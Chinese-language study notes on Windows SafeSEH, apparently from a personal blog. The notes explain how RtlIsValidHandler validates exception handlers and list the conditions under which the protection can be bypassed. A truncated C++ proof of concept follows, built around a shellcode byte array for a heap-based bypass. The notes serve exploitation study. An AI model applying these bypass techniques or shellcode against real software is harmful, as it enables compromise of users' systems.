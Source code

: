 ```yaml
---
title: 漏洞利用学习笔记-013-SafeSEH简介和简单攻击
description: SafeSEH简介和简单攻击
date: 2020-11-12 9:40:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - SafeSEH
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-013-safeseh简介和简单攻击/)

## SafeSEH简介

### 工作

- 检查异常处理链是否位于当前程序的栈中。如果不在当前栈中，程序将终止异常处理函数的调用。
- 检查异常处理函数指针是否指向当前程序的栈中。如果指向当前栈中，程序将终止异常处理函数的调用。
- 在前面两项检查都通过后，程序调用一个全新的函数`RtlIsValidHandler()`，来对异常处理函数的有效性进行验证，此函数的工作如下
  - 判断异常处理函数地址是不是在加载模块的内存空间，如果属于加载模块的内存空间，校验函数将依次进行如下校验。
    - 判断程序是否设置了`IMAGE_DLLCHARACTERISTICS_NO_SEH`标识。如果设置了这个标识，这个程序内的异常会被忽略。所以当这个标志被设置时，函数直接返回校验失败。
    - 检测程序是否包含安全`S.E.H`表。如果程序包含安全`S.E.H`表，则将当前的异常处理函数地址与该表进行匹配，匹配成功则返回校验成功，匹配失败则返回校验失败。
    - 判断程序是否设置`ILonly`标识。如果设置了这个标识，说明该程序只包含.NET编译中间语言，函数直接返回校验失败。
    - 判断异常处理函数地址是否位于不可执行页(non-executable page)上。当异常处理函数地址位于不可执行页上时，校验函数将检测`DEP`是否开启，如果系统未开启`DEP`则返回校验成功，否则程序抛出访问违例的异常。
  - 如果异常处理函数的地址没有包含在加载模块的内存空间，校验函数将直接进行`DEP`相关检测，函数依次进行如下校验。
    - 判断异常处理函数地址是否位于不可执行页(non-executable page)上。当异常处理函数地址位于不可执行页上时，校验函数将检测`DEP`是否开启，如果系统未开启`DEP`则返回校验成功，否则程序抛出访问违例的异常。
    - 判断系统是否允许跳转到加载模块的内存空间外执行，如果允许则返回校验成功，否则返回校验失败。

> `RtlIsValidHandler()`函数检测流程图

![BvASMR.png](https://s1.ax1x.com/2020/11/11/BvASMR.png)

### 可行性分析

- 异常处理函数位于加载模块内存范围之外，DEP关闭
- 异常处理函数位于加载模块内存范围之内，相应模块未启用SafeSEH(安全S.E.H表为空)，同时相应模块不是纯IL
- 异常处理函数位于加载模块内存范围之内，相应模块启用SafeSEH(安全S.E.H表不为空)，异常处理函数地址包含在安全S.E.H表中

> 终极方案：将shellcode布置在堆区，即使SEH验证不可行仍旧会调用

---

## 堆中绕过SEH

### 代码

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
```